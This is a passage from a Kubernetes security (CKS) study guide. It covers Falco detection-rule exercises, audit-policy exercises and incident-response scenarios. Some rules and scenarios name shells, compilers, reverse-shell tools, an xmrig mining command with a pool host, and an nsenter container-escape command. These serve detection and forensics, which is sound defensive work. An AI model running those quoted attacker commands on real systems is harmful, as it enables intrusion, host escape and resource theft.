    Symlink created to sensitive target (user=%user.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name)
  priority: ERROR
```
</details>

---

**Exercise F-17: Detect Compiler Execution**
Write a rule to detect compilers being run inside containers (attacker compiling exploits).

<details>
<summary>Solution</summary>

```yaml
- list: compiler_binaries
  items: [gcc, g++, cc, c++, make, cmake, as, ld]

- rule: Compiler in container
  desc: Detect compilation tools executed in containers
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (compiler_binaries)
  output: >
    Compiler detected in container (user=%user.name
    compiler=%proc.name cmdline=%proc.cmdline
    container=%container.name image=%container.image.repository
    pod=%k8s.pod.name)
  priority: ERROR
```
</details>

---

**Exercise F-18: Image-Specific Rule**
Write a rule that only fires for containers using the `nginx` image.

<details>
<summary>Solution</summary>

```yaml
- rule: Shell in nginx container
  desc: Detect shell access specifically in nginx containers
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (bash, sh) and
    container.image.repository = nginx
  output: >
    Shell in nginx container (user=%user.name command=%proc.cmdline
    container=%container.name pod=%k8s.pod.name)
  priority: ERROR
```
</details>

---

**Exercise F-19: Detect crontab Modification**
Write a rule to detect modification of cron-related files inside a container.

<details>
<summary>Solution</summary>

```yaml
- rule: Crontab modified in container
  desc: Detect modification of cron files in container -- potential persistence
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_write=true and
    container.id != host and
    (fd.name startswith /etc/cron or
     fd.name startswith /var/spool/cron or
     fd.name = /etc/crontab)
  output: >
    Cron file modified in container (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name)
  priority: ERROR
```
</details>

---

**Exercise F-20: Complete Multi-Rule File**
Create a complete `falco_rules.local.yaml` file with macros, lists, and three rules: detect shells, detect package managers, detect writes to /etc. Use proper ordering.

<details>
<summary>Solution</summary>

```yaml
# /etc/falco/falco_rules.local.yaml
# Custom rules file -- loaded after default rules

# --- Lists (defined first) ---
- list: shell_binaries
  items: [bash, csh, ksh, sh, tcsh, zsh, dash]

- list: package_mgmt_binaries
  items: [apt, apt-get, yum, dnf, apk, dpkg, rpm, pip, pip3]

# --- Macros (reference lists) ---
- macro: spawned_process
  condition: evt.type in (execve, execveat)

- macro: container
  condition: container.id != host

- macro: open_write
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_write=true and
    fd.typechar='f'

# --- Rules (reference macros and lists) ---
- rule: Shell spawned in container
  desc: Detect shell spawned inside any container
  condition: >
    spawned_process and container and
    proc.name in (shell_binaries)
  output: >
    Shell detected (user=%user.name shell=%proc.name
    parent=%proc.pname container=%container.name
    image=%container.image.repository pod=%k8s.pod.name
    namespace=%k8s.ns.name)
  priority: WARNING
  tags: [container, shell]

- rule: Package management in container
  desc: Detect package manager process launched in container
  condition: >
    spawned_process and container and
    proc.name in (package_mgmt_binaries)
  output: >
    Package manager in container (user=%user.name
    command=%proc.cmdline container=%container.name
    image=%container.image.repository pod=%k8s.pod.name
    namespace=%k8s.ns.name)
  priority: ERROR
  tags: [container, package_management]

- rule: Write below etc in container
  desc: Detect writes beneath /etc in container
  condition: >
    open_write and container and
    fd.name startswith /etc
  output: >
    File written to /etc (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: ERROR
  tags: [container, filesystem]
```
</details>

---

## 3. Audit Logging

**[VERIFIED CKS CONTENT]** -- "Use Kubernetes audit logs to monitor access" is a direct CKS competency. Verified against official Kubernetes documentation at kubernetes.io/docs/tasks/debug/debug-cluster/audit/.

### 3.1 Audit Logging Overview

Kubernetes auditing provides security-relevant, chronological records of actions in a cluster. The kube-apiserver generates audit events that are processed according to an audit policy.

**What auditing answers:**
- What happened?
- When did it happen?
- Who initiated it?
- On what did it happen?
- Where was it observed?
- From where was it initiated?
- To where was it going?

### 3.2 Audit Levels

When a request hits the API server, it is matched against audit policy rules **in order**. The first matching rule sets the audit level:

| Level             | What is logged                                         |
|-------------------|-------------------------------------------------------|
| `None`            | Nothing -- events matching this rule are not logged    |
| `Metadata`        | User, timestamp, resource, verb -- no request/response body |
| `Request`         | Metadata + request body (not response body)            |
| `RequestResponse` | Metadata + request body + response body (most verbose) |

**Memory impact**: Higher levels consume more API server memory. Use `RequestResponse` only for the most critical resources (secrets, RBAC).

### 3.3 Audit Stages

Each request generates events at different stages:

| Stage              | When                                                          |
|-------------------|---------------------------------------------------------------|
| `RequestReceived`  | When the audit handler first receives the request             |
| `ResponseStarted`  | After response headers sent (long-running requests like watch)|
| `ResponseComplete` | After the response body is completed                          |
| `Panic`            | When a panic occurs                                           |

Commonly, `RequestReceived` is omitted since it is redundant with `ResponseComplete`:
```yaml
omitStages:
  - "RequestReceived"
```

### 3.4 Audit Policy Structure

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
# Global omitStages (applies to all rules)
omitStages:
  - "RequestReceived"
rules:
  # Rule matching fields:
  # - level: None | Metadata | Request | RequestResponse
  # - resources: [{group: "", resources: ["pods", "secrets"]}]
  # - namespaces: ["default", "production"]
  # - users: ["system:admin"]
  # - userGroups: ["system:authenticated"]
  # - verbs: ["get", "list", "create", "update", "delete", "watch"]
  # - nonResourceURLs: ["/api*", "/healthz"]
  # - resourceNames: ["my-configmap"]
  # - omitStages: ["RequestReceived"]  # per-rule override

  - level: RequestResponse
    resources:
    - group: ""
      resources: ["secrets"]
```

**CRITICAL**: Rules are evaluated in order. The FIRST matching rule determines the audit level. Put specific rules BEFORE general rules.

### 3.5 API Server Configuration

To enable audit logging, modify the kube-apiserver static pod manifest:

**File**: `/etc/kubernetes/manifests/kube-apiserver.yaml`

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kube-apiserver
  namespace: kube-system
spec:
  containers:
  - command:
    - kube-apiserver
    # ... existing flags ...
    # ADD these audit flags:
    - --audit-policy-file=/etc/kubernetes/audit/audit-policy.yaml
    - --audit-log-path=/var/log/kubernetes/audit/audit.log
    - --audit-log-maxage=30          # days to retain old log files
    - --audit-log-maxbackup=10       # number of old log files to retain
    - --audit-log-maxsize=100        # max size in MB before rotation
    volumeMounts:
    # ... existing mounts ...
    # ADD these volume mounts:
    - mountPath: /etc/kubernetes/audit/audit-policy.yaml
      name: audit-policy
      readOnly: true
    - mountPath: /var/log/kubernetes/audit/
      name: audit-log
      readOnly: false
  volumes:
  # ... existing volumes ...
  # ADD these volumes:
  - name: audit-policy
    hostPath:
      path: /etc/kubernetes/audit/audit-policy.yaml
      type: File
  - name: audit-log
    hostPath:
      path: /var/log/kubernetes/audit/
      type: DirectoryOrCreate
```

**CKS Exam Tip**: After modifying the kube-apiserver manifest, the kubelet will automatically restart the API server. Wait for it to come back. Check with:
```bash
kubectl get pods -n kube-system | grep apiserver
# or
crictl ps | grep apiserver
# Check logs if it doesn't come back:
cat /var/log/pods/kube-system_kube-apiserver-*/kube-apiserver/*.log | tail -20
```

### 3.6 Audit Log Format

Audit logs are written in JSON Lines format (one JSON object per line):

```json
{
  "kind": "Event",
  "apiVersion": "audit.k8s.io/v1",
  "level": "RequestResponse",
  "auditID": "abc123-def456",
  "stage": "ResponseComplete",
  "requestURI": "/api/v1/namespaces/default/secrets/my-secret",
  "verb": "get",
  "user": {
    "username": "system:serviceaccount:default:my-sa",
    "uid": "abc-123",
    "groups": ["system:serviceaccounts", "system:authenticated"]
  },
  "sourceIPs": ["10.0.0.5"],
  "objectRef": {
    "resource": "secrets",
    "namespace": "default",
    "name": "my-secret",
    "apiVersion": "v1"
  },
  "responseStatus": {
    "metadata": {},
    "code": 200
  },
  "requestReceivedTimestamp": "2026-08-15T10:00:00.000000Z",
  "stageTimestamp": "2026-08-15T10:00:00.001000Z"
}
```

### 3.7 Audit Policy Exercises (15 Exercises)

**Exercise A-01: Minimal Audit Policy**
Create the simplest possible audit policy that logs everything at the Metadata level.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: Metadata
```
</details>

---

**Exercise A-02: Log All Secret Access at RequestResponse Level**
Write an audit policy that logs all operations on Secrets at the RequestResponse level, everything else at Metadata.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]
- level: Metadata
```
Note: The catch-all `- level: Metadata` at the end logs everything else. Rules are matched in order.
</details>

---

**Exercise A-03: Log Pod Deletions at Metadata Level**
Write an audit policy that logs Pod deletions at Metadata level and ignores everything else.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: Metadata
  resources:
  - group: ""
    resources: ["pods"]
  verbs: ["delete"]
- level: None
```
</details>

---

**Exercise A-04: Ignore system:nodes User**
Write an audit policy that does NOT log any actions by the `system:nodes` group, logs Secrets at RequestResponse, and everything else at Metadata.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Ignore all kubelet node actions
- level: None
  userGroups: ["system:nodes"]
# Log all Secret operations fully
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]
# Log everything else at Metadata
- level: Metadata
```
</details>

---

**Exercise A-05: Log Specific Namespace at Request Level**
Write a policy that logs all operations in the `production` namespace at Request level, ignores `kube-system`, and logs everything else at Metadata.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Ignore kube-system namespace
- level: None
  namespaces: ["kube-system"]
# Log production namespace operations with request bodies
- level: Request
  namespaces: ["production"]
# Everything else at Metadata
- level: Metadata
```
</details>

---

**Exercise A-06: Log ConfigMap Changes in kube-system**
Write a policy that logs create/update/delete of ConfigMaps in kube-system at Request level, and ignores read operations.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Ignore reads on configmaps in kube-system
- level: None
  resources:
  - group: ""
    resources: ["configmaps"]
  namespaces: ["kube-system"]
  verbs: ["get", "list", "watch"]
# Log modifications to configmaps in kube-system
- level: Request
  resources:
  - group: ""
    resources: ["configmaps"]
  namespaces: ["kube-system"]
  verbs: ["create", "update", "patch", "delete"]
# Default: ignore everything else
- level: None
```
</details>

---

**Exercise A-07: Log RBAC Changes**
Write a policy that logs all RBAC resource modifications (Roles, ClusterRoles, RoleBindings, ClusterRoleBindings) at RequestResponse level.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
- level: RequestResponse
  resources:
  - group: "rbac.authorization.k8s.io"
    resources:
      - "roles"
      - "clusterroles"
      - "rolebindings"
      - "clusterrolebindings"
  verbs: ["create", "update", "patch", "delete"]
- level: Metadata
```
</details>

---

**Exercise A-08: Ignore Health Check Endpoints**
Write a policy that does NOT log requests to health check endpoints (/healthz, /readyz, /livez), but logs everything else at Metadata level.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Ignore health check endpoints
- level: None
  nonResourceURLs:
    - "/healthz*"
    - "/readyz*"
    - "/livez*"
# Log everything else
- level: Metadata
```
</details>

---

**Exercise A-09: Log ServiceAccount Token Requests**
Write a policy that logs TokenRequest and TokenReview operations at RequestResponse level.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Log token operations at full verbosity
- level: RequestResponse
  resources:
  - group: "authentication.k8s.io"
    resources: ["tokenreviews"]
  - group: ""
    resources: ["serviceaccounts/token"]
# Everything else at Metadata
- level: Metadata
```
</details>

---

**Exercise A-10: Complex Multi-Rule Policy**
Write a comprehensive audit policy:
1. Ignore system:kube-proxy watch requests
2. Ignore health endpoints
3. Log Secrets and ConfigMaps at RequestResponse level
4. Log Pod and Deployment changes at Request level
5. Log everything else at Metadata level

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# 1. Ignore kube-proxy watch requests
- level: None
  users: ["system:kube-proxy"]
  verbs: ["watch"]

# 2. Ignore health check endpoints
- level: None
  nonResourceURLs:
    - "/healthz*"
    - "/readyz*"
    - "/livez*"
    - "/api*"
    - "/version"

# 3. Log secrets and configmaps at full verbosity
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets", "configmaps"]

# 4. Log pod and deployment mutations at Request level
- level: Request
  resources:
  - group: ""
    resources: ["pods"]
  - group: "apps"
    resources: ["deployments"]
  verbs: ["create", "update", "patch", "delete"]

# 5. Everything else at Metadata
- level: Metadata
```
</details>

---

**Exercise A-11: Ignore Specific ResourceName**
Write a policy that ignores access to the ConfigMap named "controller-leader" in any namespace, but logs all other ConfigMap access at Metadata level.

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: None
  resources:
  - group: ""
    resources: ["configmaps"]
    resourceNames: ["controller-leader"]
- level: Metadata
  resources:
  - group: ""
    resources: ["configmaps"]
- level: None
```
</details>

---

**Exercise A-12: Log Pod Exec and Attach**
Write a policy that logs exec and attach operations on pods at RequestResponse level (critical for detecting interactive access).

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages:
  - "RequestReceived"
rules:
# Log exec and attach at full verbosity
- level: RequestResponse
  resources:
  - group: ""
    resources: ["pods/exec", "pods/attach"]
# Log other pod sub-resources at Metadata
- level: Metadata
  resources:
  - group: ""
    resources: ["pods/log", "pods/status", "pods/portforward"]
# Everything else at Metadata
- level: Metadata
```
</details>

---

**Exercise A-13: Per-Rule omitStages**
Write a policy that:
- Logs secrets at RequestResponse level, but only at ResponseComplete stage (no RequestReceived)
- Logs everything else at Metadata at all stages

<details>
<summary>Solution</summary>

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
# No global omitStages -- we want per-rule control
rules:
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]
  omitStages:
    - "RequestReceived"
    - "ResponseStarted"
# Log everything at Metadata, all stages
- level: Metadata
```
</details>

---

**Exercise A-14: Configure API Server for Audit Logging**
Given a cluster where audit logging is not configured, add the necessary flags, volumes, and volume mounts to the kube-apiserver manifest. The audit policy is at `/etc/kubernetes/audit-policy.yaml` and logs should go to `/var/log/audit.log`.

<details>
<summary>Solution</summary>

Edit `/etc/kubernetes/manifests/kube-apiserver.yaml`:

Add command flags:
```yaml
    - --audit-policy-file=/etc/kubernetes/audit-policy.yaml
    - --audit-log-path=/var/log/audit.log
    - --audit-log-maxage=30
    - --audit-log-maxbackup=3
    - --audit-log-maxsize=100
```

Add volume mounts:
```yaml
    volumeMounts:
    - mountPath: /etc/kubernetes/audit-policy.yaml
      name: audit-policy
      readOnly: true
    - mountPath: /var/log/audit.log
      name: audit-log
      readOnly: false
```

Add volumes:
```yaml
  volumes:
  - name: audit-policy
    hostPath:
      path: /etc/kubernetes/audit-policy.yaml
      type: File
  - name: audit-log
    hostPath:
      path: /var/log/audit.log
      type: FileOrCreate
```

After saving, wait for the API server to restart:
```bash
# Watch for restart
watch crictl ps | grep apiserver
# Verify audit logs appear
cat /var/log/audit.log | head -5
```
</details>

---

**Exercise A-15: Read and Interpret Audit Logs**
Given this audit log entry, answer: Who accessed what resource? What verb was used? Was it successful?

```json
{
  "kind": "Event",
  "apiVersion": "audit.k8s.io/v1",
  "level": "Metadata",
  "stage": "ResponseComplete",
  "requestURI": "/api/v1/namespaces/production/secrets/db-credentials",
  "verb": "get",
  "user": {
    "username": "system:serviceaccount:production:webapp-sa",
    "groups": ["system:serviceaccounts", "system:authenticated"]
  },
  "sourceIPs": ["10.244.1.15"],
  "objectRef": {
    "resource": "secrets",
    "namespace": "production",
    "name": "db-credentials",
    "apiVersion": "v1"
  },
  "responseStatus": {
    "code": 200
  },
  "requestReceivedTimestamp": "2026-08-15T14:30:00.000000Z"
}
```

<details>
<summary>Solution</summary>

- **Who**: ServiceAccount `webapp-sa` in namespace `production`
- **What**: Secret named `db-credentials` in namespace `production`
- **Verb**: `get` (read operation)
- **Source IP**: `10.244.1.15` (pod IP)
- **Result**: Successful (HTTP 200)
- **When**: 2026-08-15 at 14:30:00 UTC

**Analysis**: This shows a ServiceAccount reading a database credentials secret. This could be legitimate application behavior, but should be verified that:
1. The `webapp-sa` ServiceAccount is supposed to have access to `db-credentials`
2. The RBAC role binding is appropriately scoped
3. This is not an unauthorized ServiceAccount token being misused
</details>

---

## 4. Forensics and Incident Response


**[VERIFIED CKS CONTENT]** -- The CKS curriculum explicitly states: "Investigate and identify phases of attack and bad actors."

### 4.1 CKS Rapid Incident Response Playbook

```
INCIDENT RESPONSE FLOW
======================

1. IDENTIFY          What triggered the alert? Falco? Unusual behavior?
       |
2. PRESERVE          Don't delete anything yet. Capture evidence.
       |
3. ISOLATE           NetworkPolicy deny-all, cordon the node
       |
4. INSPECT           kubectl describe, exec, process inspection
       |
5. ANALYZE           Examine processes, network, files, RBAC, images
       |
6. DETERMINE         Identify attack vector, scope, timeline
       |
7. REMEDIATE         Delete compromised pod, fix vulnerability, restrict RBAC
       |
8. VERIFY            Confirm fix, check for persistence, monitor
```

### 4.2 Step-by-Step Response Commands

#### Step 1: Identify -- Receive Alert
```bash
# Check Falco logs
kubectl logs -n falco -l app.kubernetes.io/name=falco --tail=50

# Check recent events
kubectl get events --sort-by='.lastTimestamp' -A | tail -20

# Check audit logs
cat /var/log/kubernetes/audit/audit.log | tail -50 | jq .
```

#### Step 2: Preserve -- Capture Evidence
```bash
# Save pod details before any changes
kubectl get pod <suspicious-pod> -n <ns> -o yaml > /tmp/evidence/pod-manifest.yaml
kubectl describe pod <suspicious-pod> -n <ns> > /tmp/evidence/pod-describe.txt
kubectl logs <suspicious-pod> -n <ns> > /tmp/evidence/pod-logs.txt
kubectl logs <suspicious-pod> -n <ns> --previous > /tmp/evidence/pod-logs-previous.txt 2>/dev/null

# Save the container image for offline analysis
crictl images | grep <image-name>
```

#### Step 3: Isolate -- Contain the Threat
```bash
# Option A: Apply deny-all NetworkPolicy to isolate the pod
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate-compromised
  namespace: <ns>
spec:
  podSelector:
    matchLabels:
      app: <compromised-app>
  policyTypes:
  - Ingress
  - Egress
  # No ingress/egress rules = deny all traffic
EOF

# Option B: Cordon the node to prevent new scheduling
kubectl cordon <node-name>

# Option C: Drain the node (moves other workloads away)
kubectl drain <node-name> --ignore-daemonsets --delete-emptydir-data
```

#### Step 4: Inspect -- Examine the Container
```bash
# Check running processes inside the container
kubectl exec <pod> -n <ns> -- ps aux
kubectl exec <pod> -n <ns> -- ps -ef

# Check network connections
kubectl exec <pod> -n <ns> -- ss -tlnp     # TCP listeners
kubectl exec <pod> -n <ns> -- ss -ulnp     # UDP listeners
kubectl exec <pod> -n <ns> -- ss -tnp      # Active TCP connections

# Check filesystem modifications
kubectl exec <pod> -n <ns> -- find / -newer /proc/1/cmdline -type f 2>/dev/null
kubectl exec <pod> -n <ns> -- ls -la /tmp/
kubectl exec <pod> -n <ns> -- cat /etc/passwd

# Check environment variables (may contain leaked secrets)
kubectl exec <pod> -n <ns> -- env

# Check /proc for process details
kubectl exec <pod> -n <ns> -- ls -la /proc/1/exe
kubectl exec <pod> -n <ns> -- cat /proc/1/cmdline
```

#### Step 5: Inspect ServiceAccount and RBAC
```bash
# What SA is the pod using?
kubectl get pod <pod> -n <ns> -o jsonpath='{.spec.serviceAccountName}'

# What roles/bindings does this SA have?
kubectl get rolebindings,clusterrolebindings -A -o json | \
  jq '.items[] | select(.subjects[]?.name=="<sa-name>")'

# Check if the SA token is automounted
kubectl get pod <pod> -n <ns> -o jsonpath='{.spec.automountServiceAccountToken}'
```

#### Step 6: Scan the Image
```bash
# Use trivy to scan the container image
trivy image <image-name>:<tag>

# Check image for known CVEs
trivy image --severity HIGH,CRITICAL <image-name>:<tag>
```

#### Step 7: Remediate
```bash
# Delete the compromised pod
kubectl delete pod <pod> -n <ns>

# If managed by a Deployment, fix the Deployment
kubectl edit deployment <deployment> -n <ns>
# Fix: update image, add security context, remove excess permissions

# Restrict the ServiceAccount
kubectl patch serviceaccount <sa-name> -n <ns> \
  -p '{"automountServiceAccountToken": false}'

# Tighten RBAC
kubectl delete rolebinding <excessive-binding> -n <ns>

# Remove the NetworkPolicy isolation after fix
kubectl delete networkpolicy isolate-compromised -n <ns>

# Uncordon the node
kubectl uncordon <node-name>
```

### 4.3 Incident Response Scenarios (10 Scenarios)

**Scenario IR-01: Shell Alert in Production Pod**

A Falco alert fires: "Shell spawned in container (shell=bash container=payment-api pod=payment-api-7f8b9c namespace=production)". The payment-api is a Java application that should never run bash.

<details>
<summary>Response Steps</summary>

```bash
# 1. Preserve evidence
kubectl describe pod payment-api-7f8b9c -n production > /tmp/ir/pod-describe.txt
kubectl logs payment-api-7f8b9c -n production > /tmp/ir/pod-logs.txt

# 2. Isolate immediately (production payment system!)
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate-payment
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: payment-api
  policyTypes:
  - Ingress
  - Egress
EOF

# 3. Inspect what the shell is doing
kubectl exec payment-api-7f8b9c -n production -- ps aux
# Look for: bash process, child processes, any wget/curl/nc

kubectl exec payment-api-7f8b9c -n production -- ss -tnp
# Look for: unexpected outbound connections (C2 server?)

# 4. Check if data exfiltration occurred
kubectl exec payment-api-7f8b9c -n production -- ls -la /tmp/
# Look for: downloaded files, scripts, data dumps

# 5. Check how attacker got in
kubectl exec payment-api-7f8b9c -n production -- cat /proc/1/cmdline
# Check ServiceAccount RBAC
kubectl get pod payment-api-7f8b9c -n production -o jsonpath='{.spec.serviceAccountName}'

# 6. Check audit logs for who exec'd into the pod
cat /var/log/kubernetes/audit/audit.log | jq 'select(.objectRef.resource=="pods" and .objectRef.subresource=="exec")'

# 7. Remediate
kubectl delete pod payment-api-7f8b9c -n production
# Fix: use distroless image, add readOnlyRootFilesystem, drop all capabilities
```
</details>

---

**Scenario IR-02: Crypto Miner Detected**

Falco alert: "Crypto miner detected (process=xmrig cmdline=xmrig --pool stratum+tcp://pool.minexmr.com:4444 container=web-app)". High CPU usage confirmed.

<details>
<summary>Response Steps</summary>

```bash
# 1. Isolate -- cut network to stop mining
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: block-miner
  namespace: default
spec:
  podSelector:
    matchLabels:
      app: web-app
  policyTypes:
  - Egress
EOF

# 2. Inspect how the miner got there
kubectl exec <pod> -- ps aux | grep xmrig
kubectl exec <pod> -- ls -la /tmp/  # Likely dropped here
kubectl exec <pod> -- cat /proc/$(pgrep xmrig)/cmdline

# 3. Determine attack vector
# Check if it was in the image or downloaded at runtime
kubectl exec <pod> -- find / -name "xmrig" 2>/dev/null
# If in /tmp or writable dir -> downloaded at runtime (RCE vulnerability)
# If in image layer -> compromised image in supply chain

# 4. Scan the image
trivy image <web-app-image>

# 5. Remediate
kubectl delete pod <pod>
# Fix deployment: add readOnlyRootFilesystem, use minimal image
# Fix: restrict egress with NetworkPolicy to allow only needed ports
# Fix: scan all images in registry for similar compromise
```
</details>

---

**Scenario IR-03: ServiceAccount Token Exfiltration**

Audit log shows: A pod's ServiceAccount token was used to list secrets across all namespaces from an unexpected source IP.

<details>
<summary>Response Steps</summary>

```bash
# 1. Identify the ServiceAccount
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.verb=="list" and .objectRef.resource=="secrets") | {user: .user.username, sourceIP: .sourceIPs, ns: .objectRef.namespace}'

# 2. Check if the SA has excessive permissions
kubectl get clusterrolebindings -o json | \
  jq '.items[] | select(.subjects[]?.name=="<sa-name>")'

# 3. Find all pods using this SA
kubectl get pods -A -o json | \
  jq '.items[] | select(.spec.serviceAccountName=="<sa-name>") | {name: .metadata.name, ns: .metadata.namespace}'

# 4. Remediate
# Disable automount for the SA
kubectl patch sa <sa-name> -n <ns> -p '{"automountServiceAccountToken": false}'
# Delete excessive ClusterRoleBinding
kubectl delete clusterrolebinding <binding-name>
# Create a scoped Role instead with minimal permissions
# Restart affected pods to get new token (or no token)
```
</details>

---

**Scenario IR-04: Write to /etc/shadow**

Falco alert: "File written to /etc in container (file=/etc/shadow command=bash container=backend-api)". Attacker may be adding a backdoor user.

<details>
<summary>Response Steps</summary>

```bash
# 1. Check what was written
kubectl exec <pod> -n <ns> -- cat /etc/shadow
# Look for: new user entries, modified root password hash

kubectl exec <pod> -n <ns> -- cat /etc/passwd
# Look for: new uid 0 users, new user accounts

# 2. Check process tree
kubectl exec <pod> -n <ns> -- ps auxf
# Identify: who is running bash, what parent process

# 3. Check if attacker created persistence
kubectl exec <pod> -n <ns> -- cat /etc/crontab 2>/dev/null
kubectl exec <pod> -n <ns> -- ls -la /etc/cron.d/ 2>/dev/null

# 4. Isolate and delete
kubectl delete pod <pod> -n <ns> --force --grace-period=0

# 5. Fix: ensure readOnlyRootFilesystem
kubectl patch deployment backend-api -n <ns> --type='json' \
  -p='[{"op":"add","path":"/spec/template/spec/containers/0/securityContext/readOnlyRootFilesystem","value":true}]'
```
</details>

---

**Scenario IR-05: Unexpected Outbound Connection**

Falco alert: "Unexpected outbound connection (connection=10.244.1.5:43210->185.143.223.100:4444 container=api-gateway)". Port 4444 is commonly used for reverse shells and Metasploit.

<details>
<summary>Response Steps</summary>

```bash
# 1. IMMEDIATE: isolate network
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: emergency-isolate
  namespace: <ns>
spec:
  podSelector:
    matchLabels:
      app: api-gateway
  policyTypes:
  - Egress
EOF

# 2. Check what process is making the connection
kubectl exec <pod> -n <ns> -- ss -tnp
# Identify the process connected to 185.143.223.100:4444

kubectl exec <pod> -n <ns> -- ps aux
# Look for: nc, ncat, bash with /dev/tcp, python reverse shell

# 3. Check for data exfiltration
kubectl exec <pod> -n <ns> -- ls -la /tmp/
# Look for: data dumps, tar files, encoded data

# 4. Delete compromised pod
kubectl delete pod <pod> -n <ns>

# 5. Remediate with strict egress policy
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-gateway-egress
  namespace: <ns>
spec:
  podSelector:
    matchLabels:
      app: api-gateway
  policyTypes:
  - Egress
  egress:
  - to:
    - namespaceSelector: {}     # Only in-cluster
    ports:
    - port: 443
    - port: 80
  - to: []
    ports:
    - port: 53                  # DNS
      protocol: UDP
EOF
```
</details>

---

**Scenario IR-06: Container Escape Detected**

Falco alert: "Container escape tool executed (tool=nsenter cmdline=nsenter --target 1 --mount --uts --ipc --net --pid container=debug-pod)".

<details>
<summary>Response Steps</summary>

```bash
# 1. THIS IS CRITICAL -- nsenter to PID 1 means accessing host namespaces
# Check if the pod has hostPID: true
kubectl get pod debug-pod -n <ns> -o jsonpath='{.spec.hostPID}'
# Check if the pod is privileged
kubectl get pod debug-pod -n <ns> -o jsonpath='{.spec.containers[0].securityContext.privileged}'

# 2. Check what was done on the host
# If nsenter succeeded, attacker had full host access
# Check host processes for persistence
ssh <node> 'ps aux | grep -v kube'
ssh <node> 'cat /etc/crontab'
ssh <node> 'ls -la /etc/cron.d/'

# 3. Immediately delete the pod
kubectl delete pod debug-pod -n <ns> --force --grace-period=0

# 4. Cordon the node -- it may be compromised
kubectl cordon <node>

# 5. Investigate the node
ssh <node> 'find / -newer /tmp/evidence-timestamp -type f 2>/dev/null'
ssh <node> 'last -20'
ssh <node> 'cat /var/log/auth.log | tail -50'

# 6. Remediate
# - Enforce restricted PSA on the namespace
# - Ensure no pod can run with hostPID/privileged
# - Consider draining and reimaging the node
```
</details>

---

**Scenario IR-07: Unauthorized Secret Access**

Audit log shows repeated `get` requests for secrets in multiple namespaces from ServiceAccount `default` in namespace `testing`.

<details>
<summary>Response Steps</summary>

```bash
# 1. Check audit logs
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.user.username=="system:serviceaccount:testing:default" and .objectRef.resource=="secrets")'

# 2. Why does "default" SA have cross-namespace secret access?
kubectl get clusterrolebindings -o json | \
  jq '.items[] | select(.subjects[]? | .name=="default" and .namespace=="testing")'

# 3. This is likely an overprivileged ClusterRoleBinding
# Delete the excessive binding
kubectl delete clusterrolebinding <binding-name>

# 4. Check which pod is using the default SA
kubectl get pods -n testing -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.serviceAccountName}{"\n"}{end}'

# 5. Create a dedicated SA with minimal permissions
kubectl create sa testing-app -n testing
kubectl patch sa testing-app -n testing -p '{"automountServiceAccountToken": false}'

# 6. If the pod legitimately needs some secret access:
# Create a Role (not ClusterRole) with specific secret names
```
</details>

---

**Scenario IR-08: Package Manager Running in Production**

Falco alert: "Package manager executed (command=apt-get install nmap container=frontend pod=frontend-abc namespace=production)".

<details>
<summary>Response Steps</summary>

```bash
# 1. Attacker is installing reconnaissance tools
# Isolate immediately
kubectl exec frontend-abc -n production -- ps aux
# Check what else they installed or ran

# 2. Check for ongoing reconnaissance
kubectl exec frontend-abc -n production -- ss -tnp
# Look for: nmap scans to other cluster IPs

# 3. Check how they got shell access
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.objectRef.resource=="pods" and .objectRef.subresource=="exec" and .objectRef.name=="frontend-abc")'

# 4. Delete the pod
kubectl delete pod frontend-abc -n production

# 5. Remediate
